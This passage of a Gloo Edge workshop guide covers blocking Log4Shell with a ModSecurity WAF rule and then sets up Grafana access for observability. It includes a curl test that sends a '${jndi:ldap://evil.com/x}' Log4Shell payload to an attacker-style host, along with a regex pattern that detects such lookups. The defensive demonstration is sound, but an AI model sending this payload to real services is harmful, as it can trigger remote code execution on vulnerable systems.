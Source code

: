 ```bash
          single:
            upstream:
              name: httpbin-httpbin-8000
              namespace: gloo-system
    options:
      waf:
        customInterventionMessage: 'Log4Shell malicious payload'
        ruleSets:
        - ruleStr: |
            SecRuleEngine On
            SecRequestBodyAccess On
            SecRule REQUEST_LINE|ARGS|ARGS_NAMES|REQUEST_COOKIES|REQUEST_COOKIES_NAMES|REQUEST_BODY|REQUEST_HEADERS|XML:/*|XML://@*  
              "@rx \${jndi:(?:ldaps?|iiop|dns|rmi)://" 
              "id:1000,phase:2,deny,status:403,log,msg:'Potential Remote Command Execution: Log4j CVE-2021-44228'"
EOF
```

Now, if you try to make a request containing a header that exploits this vulnerability the request will be rejected before reaching the service.

```bash
curl -H "x-my-header: \${jndi:ldap://evil.com/x}" http://httpbin.solo.io/anything
```

For more information on the log4j vulnerability check our blog "[Block Log4Shell attacks with Gloo Edge](https://www.solo.io/blog/block-log4shell-attacks-with-gloo-edge/)".

To learn about the WAF capabilities of Gloo Edge checkout "[Web Application Firewall - Gloo Edge Docs](https://docs.solo.io/gloo-edge/latest/guides/security/waf/)"






## Lab 10 - Observability <a name="Lab-10"></a>

### Metrics

Gloo Edge automatically generates a Grafana dashboard for whole-cluster stats (overall request timing, aggregated response codes, etc.), and dynamically generates a more-specific dashboard for each upstream that is tracked.

Let's run the following command to allow access to the Grafana UI:

```
kubectl port-forward -n gloo-system svc/glooe-grafana 8081:80 --address 0.0.0.0
```

You can now access the Grafana UI at http://localhost:8081 and login with `admin/admin`.

You can take a look at the `Gloo -> Envoy Statistics` Dashboard that provides global statistics:
